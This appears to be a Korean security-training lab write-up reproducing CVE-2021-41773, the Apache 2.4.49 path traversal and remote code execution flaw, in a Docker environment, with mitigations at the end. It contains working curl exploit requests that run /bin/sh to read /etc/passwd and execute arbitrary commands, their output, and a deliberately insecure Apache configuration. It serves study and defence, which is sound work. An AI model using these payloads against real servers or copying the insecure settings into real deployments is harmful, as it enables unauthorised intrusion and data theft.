




# Apache HTTP Server 경로 탐색 및 원격 코드 실행 (CVE-2021-41773)

> 화이트햇 스쿨 3기 — [본인 GitHub ID]

## 취약점 요약

CVE-2021-41773은 Apache HTTP Server **2.4.49** 버전에서 발견된 경로 정규화(path normalization) 결함으로 인한 **경로 탐색(Path Traversal)** 및 **원격 코드 실행(RCE)** 취약점이다.

Apache 2.4.49에서 URL 경로의 불필요하거나 위험한 부분을 제거하기 위해 새로운 경로 정규화 로직이 도입되었으나, 이 로직은 URL 인코딩된 점-점-슬래시(`../`) 시퀀스를 올바르게 탐지하지 못했다. 구체적으로, 두 번째 점(`.`)을 `.`(URL 인코딩 `%2e`)으로 인코딩하면 정규화 함수가 이를 점으로 인식하지 못해 경로 탐색 방어를 우회할 수 있었다.

이 취약점은 **실제 공격에 활용되었으며(in-the-wild exploitation)**, CISA Known Exploited Vulnerabilities(KEV) 카탈로그에 등재되었다.

| 항목 | 내용 |
|------|------|
| **CVE ID** | CVE-2021-41773 |
| **CVSS 3.1** | **9.8** (Critical) — AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H |
| **CWE** | CWE-22 (Improper Limitation of a Pathname to a Restricted Directory) |
| **영향 버전** | Apache HTTP Server 2.4.49 |
| **패치 버전** | Apache HTTP Server 2.4.51 (2.4.50은 불완전한 수정, CVE-2021-42013) |
| **공격 벡터** | 네트워크 (원격) |
| **인증 필요 여부** | 불필요 (비인증 공격) |
| **공격 복잡도** | 낮음 |

**참고 자료:**

- <https://nvd.nist.gov/vuln/detail/cve-2021-41773>
- <https://httpd.apache.org/security/vulnerabilities_24.html>
- <https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013>
- <https://www.hackthebox.com/blog/cve-2021-41773-explained>

---

## 환경 구성

### 디렉터리 구조

```
Apache/CVE-2021-41773/
├── docker-compose.yml   # 환경 실행 정의
├── Dockerfile           # 취약 Apache 2.4.49 이미지 빌드
├── poc.sh               # PoC 자동화 스크립트
├── 1.png                # 실행 결과 — cat /etc/passwd (RCE)
├── 2.png                # 실행 결과 — id
├── 3.png                # 실행 결과 — uname -a
├── 4.png                # 실행 결과 — env
└── README.md            # 본 보고서
```

### 환경 시작

```bash
docker compose up -d --build
```

빌드가 완료되면 `http://localhost:8080` 에서 Apache 기본 페이지(`It works!`)가 표시된다.

환경을 종료하려면:

```bash
docker compose down
```

### 구성 설명

`Dockerfile`에서 공식 `httpd:2.4.49` 이미지를 기반으로 다음 두 가지 취약 조건을 구성한다:

1. **mod_cgi 활성화** — `httpd.conf`에서 `LoadModule cgi_module`과 `LoadModule cgid_module`의 주석을 해제하여, CGI 스크립트 실행을 가능하게 한다.
2. **루트 디렉터리 접근 허용** — 모든 `Require all denied`를 `Require all granted`로 변경하여, 파일 시스템 루트에 대한 접근 제한을 해제한다.

---

## 취약 조건

이 취약점이 악용되기 위해서는 다음 조건이 **모두** 충족되어야 한다:

1. **Apache HTTP Server 버전이 2.4.49**이어야 한다 (이전 버전은 해당 경로 정규화 로직이 없어 영향 없음).

2. **파일 시스템 루트 디렉터리(`/`)에 대한 접근 제한이 해제**되어 있어야 한다. 즉, 기본 설정인 `Require all denied` 대신 `Require all granted`가 적용되어야 경로 탐색(파일 읽기)이 가능하다:
   ```apache
   <Directory />
       AllowOverride None
       Require all granted    # ← 취약 설정 (기본값은 denied)
   </Directory>
   ```

3. **mod_cgi 또는 mod_cgid가 활성화**되어 있어야 RCE(원격 코드 실행)까지 가능하다. 파일 읽기만을 위해서는 이 조건은 필요하지 않다:
   ```apache
   LoadModule cgi_module modules/mod_cgi.so
   LoadModule cgid_module modules/mod_cgid.so
   ```

---

## 재현 절차

### 사전 준비

```bash
# 1. 환경 시작
docker compose up -d --build

# 2. 서버 정상 동작 확인
curl http://localhost:8080
# 출력: <html><body><h1>It works!</h1></body></html>
```

### 1단계: 원격 코드 실행 — /etc/passwd 읽기

mod_cgi가 활성화된 상태에서, `/cgi-bin/` 경로를 통해 경로 탐색 후 `/bin/sh`를 실행하여 `/etc/passwd`를 읽는다:

```bash
curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo Content-Type: text/plain; echo; cat /etc/passwd"
```

**기대 결과:** 서버의 `/etc/passwd` 파일 내용이 응답으로 반환된다.



### 2단계: 원격 코드 실행 — id 명령어

```bash
curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo Content-Type: text/plain; echo; id"
```

**기대 결과:** `uid=1(daemon) gid=1(daemon) groups=1(daemon)`이 반환된다.



### 3단계: 원격 코드 실행 — uname -a

```bash
curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo Content-Type: text/plain; echo; uname -a"
```

**기대 결과:** 서버의 커널 정보가 반환된다.



### 4단계: 원격 코드 실행 — 환경변수 확인

```bash
curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo Content-Type: text/plain; echo; env"
```

**기대 결과:** `SERVER_SOFTWARE=Apache/2.4.49 (Unix)`, `SCRIPT_NAME=/cgi-bin/../../../../bin/sh` 등 서버 환경변수가 노출된다.



---

## PoC 코드

### 자동화 스크립트 (poc.sh)

모든 공격 단계를 자동으로 수행하는 셸 스크립트이다:

```bash
chmod +x poc.sh
./poc.sh                        # 기본 대상: http://localhost:8080
./poc.sh http://10.0.0.5:8080   # 지정 대상
```

### 수동 PoC (curl)

**원격 코드 실행 (임의 명령어):**

```bash
curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo Content-Type: text/plain; echo; <원하는 명령어>"
```

> **Windows PowerShell 사용 시:** `curl` 대신 `curl.exe`를 사용해야 한다.

### 공격 원리 상세 설명

1. 경로 `/.%2e/`에서 `.`은 현재 디렉터리를, `%2e`는 URL 인코딩된 `.`을 나타낸다.
2. 정상적인 경로 정규화라면 `..`(점 두 개)을 감지해 상위 디렉터리 탐색을 차단해야 한다.
3. 그러나 Apache 2.4.49의 `ap_normalize_path()` 함수는 `.%2e`를 `..`로 인식하지 못하므로, URL 디코딩 후 실제로는 `../` 역할을 하게 되어 웹 루트를 벗어난 파일 접근이 가능하다.
4. `/cgi-bin/` 경로로 진입하면 mod_cgi에 의해 요청이 CGI 스크립트로 처리되므로, 경로 탐색을 통해 `/bin/sh`를 실행하면 POST 본문의 내용이 셸 명령으로 실행된다.

---

## 실행 결과

### RCE — cat /etc/passwd

```
$ curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo Content-Type: text/plain; echo; cat /etc/passwd"

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### RCE — id

```
$ curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo Content-Type: text/plain; echo; id"

uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

### RCE — uname -a

```
$ curl -s --path-as-is -X POST \
  "http://localhost:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
  -d "echo Content-Type: text/plain; echo; uname -a"

Linux 685d3fb43a38 6.18.33.2-microsoft-standard-WSL2 #1 SMP ... x86_64 GNU/Linux
```

### RCE — env (주요 항목)

```
SERVER_SOFTWARE=Apache/2.4.49 (Unix)
SCRIPT_FILENAME=/bin/sh
SCRIPT_NAME=/cgi-bin/../../../../bin/sh
REQUEST_URI=/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh
CONTEXT_DOCUMENT_ROOT=/usr/local/apache2/cgi-bin/
```

`SCRIPT_NAME`에서 경로 탐색(`../../../../`)이 실제로 처리되었음을 확인할 수 있다.

---

## 대응 방안

### 1. 즉시 패치 (권장)

Apache HTTP Server를 **2.4.51 이상**으로 업그레이드한다. 버전 2.4.50은 CVE-2021-41773에 대한 불완전한 수정이므로(CVE-2021-42013), 반드시 2.4.51 이상을 사용해야 한다.

### 2. 설정 강화

파일 시스템 루트 디렉터리에 대해 기본 설정인 `Require all denied`를 유지한다:

```apache
<Directory />
    AllowOverride None
    Require all denied
</Directory>
```

### 3. 불필요한 모듈 비활성화

RCE 위험을 줄이기 위해, 사용하지 않는 CGI 모듈을 비활성화한다:

```apache
# httpd.conf에서 아래 줄을 주석 처리
# LoadModule cgi_module modules/mod_cgi.so
# LoadModule cgid_module modules/mod_cgid.so
```

### 4. WAF 규칙 적용

URL에서 인코딩된 경로 탐색 패턴(`.%2e`, `%2e%2e`, `%252e` 등)을 탐지·차단하는 WAF 규칙을 배포한다.

### 5. 네트워크 격리

Apache 서버를 내부 네트워크에 격리하고, 신뢰할 수 있는 네트워크에서만 접근할 수 있도록 방화벽을 구성한다.

---

## 환경 정리

```bash
docker compose down
```
